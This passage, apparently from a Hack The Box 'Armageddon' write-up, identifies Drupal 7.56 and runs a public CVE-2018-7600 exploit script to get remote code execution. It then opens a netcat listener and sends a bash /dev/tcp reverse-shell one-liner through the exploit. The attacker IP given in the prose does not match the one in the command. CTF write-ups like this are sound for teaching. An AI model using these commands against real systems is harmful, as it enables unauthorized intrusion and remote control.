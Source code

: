 ```
  Apache module is disabled.
- Fixed Drupal's URL-generating functions to always encode '[' and ']' so that
  the URLs will pass HTML5 validation.
- Various additional bug fixes.
- Various API documentation improvements.
- Additional automated test coverage.
....
```

This information suggests that the system is running `Drupal 7.56`, with a release date of `June 21, 2017`.

An exploit for this version of `Drupal`, located at https://github.com/pimps/CVE-2018-7600, may be used to target the system. Let's try it:

```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ python3 drupa7-CVE-2018-7600.py http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-0Rw1i6zpEE6QsRaQ3-L6ew1BDRNw10uetXpDwq8coxQ
[*] Triggering exploit to execute: id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

```

We have achieved Remote Code Execution (RCE).

To obtain a reverse shell, we can first listen on port `53` and then execute the necessary command to establish the connection:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $nc -lvp 53
listening on [any] 53 ...

```

After setting up a listener on port `53`, we can use the following command to run the reverse shell:
`bash -i >& /dev/tcp/10.10.14.14/53 0>&1`.

This command will redirect input and output from the command prompt to a TCP socket that connects to IP address `10.10.14.14` on port `53`, thereby establishing a reverse shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "bash -i >& /dev/tcp/10.10.14.23/53 0>&1"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-oWaticTgF9kHnybD0nikPOKvGzrqGpEGc3GjVkojkpE
[*] Triggering exploit to execute: bash -i >& /dev/tcp/10.10.14.23/53 0>&1

```
